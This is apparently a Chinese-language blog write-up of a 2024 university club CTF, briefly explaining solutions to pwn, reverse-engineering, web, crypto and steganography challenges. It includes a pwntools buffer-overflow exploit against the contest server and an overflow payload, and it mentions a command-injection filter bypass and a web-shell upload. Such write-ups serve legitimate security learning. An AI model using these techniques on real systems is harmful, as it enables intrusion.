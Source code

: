 ```yaml
---
title: 成大資安社迎新盃CTF 2024 - write-up
published: 2024-10-21
description: '在成大資安社迎新盃 CTF 中所解出來的題目 write-up'
image: 'CTF.png'
tags: [CTF,write-up,Cyber Secutity]
category: 'CTF'
draft: false 
lang: 'zh-tw'
---
```


## 心得
當賽棍拿摸了個 #7 真開心 XD

![image](https://hackmd.io/_uploads/S1aGoSLIyl.png)

## Pwn
### [新手友善] Overflow Tutorial
第一題問你有一個 8-bit unsigned integer (0 ~ 255)  
現在它是 5 ，請問你要加多少它才會變0  
第二題問你，現在有一個 input buffer 為 0x4040a0    
Target is at 0x4040c0  
Target now has string: pwn2ooo  
要怎麼 overwrite string，很簡單，以下的payload可以幫你
```
12345678901234567890123456789012NCKUCTF
```
### Every pwner's first challenge
經典的入門題，要利用 buffer overflow 來指向到 call_me 的位址
payload:
```py
from pwn import *

r = remote('chall.nckuctf.org', 29102)
call_me_addr = p64(0x401196)

payload = b'A' * 40
payload += call_me_addr

r.recvline()
r.sendline(payload)
r.interactive()
```
## Reverse(破台)
### ✌️✊✋
直接玩就會出 Flag
### Youtube Video Recommendation Tool
開 Ghidra 出來看，把網址一個一個貼上
### Baby Python Assembly
把 python assembly 丟給 AI 叫他翻譯  
然後拿去 decrypt 就可以得到 Flag
### 2048??
打開 DIE(Detect it easy) ，發現是 C#  
打開 dnSpy，發現 Goal = 2486
直接 patch 改成 8 ，然後玩遊戲合成出 8 就直接 Get Flag
### ✌️✊✋ Revenge
DIE 發現有 UPX 殼，先脫殼  
之後發現程式卡住，先 Patch sleep time  
然後發現怎麼出都輸，回去看程式碼，才發現初始化的部分有問題  
把初始化的字串 Patch 掉之後，必輸變成必贏  
直接 Get Flag  
## Web
### Just Image
Source Code 發現它 Path 是利用 base64編碼  
直接把 /flag 拿去編碼，之後 curl 就有 Flag  
~~這題搞了我兩個小時~~
### Looking Glass
看了 source code ，發現只能用 ping 跟 traceroute 才能下 command
之後看到了比較重要的地方
```py
if not re.match('^[+-9A-~]*$', target):
```
意思是 ASCII 從 + ~ 9 ，從A ~ ~ 都不可以用  
之後想了蠻久的一段時間，然後就莫名其妙蹦出來可以用逗號跟大括號的想法    
之後就直接解出Flag
### 好駭客的網站
簡單的 Burp 去竄改封包然後上傳 web shell
## Crypto
### my fiRSt chAllenge
n 是質數就直接暴力算就解開了
### E?
Common Modulus Attack 就可以解出來ㄌ
### [新手友善] BabyRSA (水題兼自己腦抽)
(一堆OOXX)為什麼就沒意識到自己填充方式錯了...
## Misc
### BabyLSB
當初有在讀書會聽檸檬希望分享音頻 CTF 的題材，再加上這題附件的附檔名是wav
應該是音頻解密，就去網路上找 decrypt script
```py
import wave

def extract_data(frames):
    by = 0
    ret = []
    for i, frame in enumerate(frames):
        lsb = frame & 0b00000001
        by += (2**(7 - (i % 8))) * lsb

        if i % 8 == 7:
            ret.append(by.to_bytes(1, "little"))
            by = 0

    return b"".join(ret)



if __name__ == '__main__':
    filename = "Yee_is_good.wav"
    wf = wave.open(filename, "rb")
    print(wf.getparams())

    frames = wf.readframes(wf.getnframes())
    flag = extract_data(list(frames)[:1000])
    wf.close()

    print(flag)
```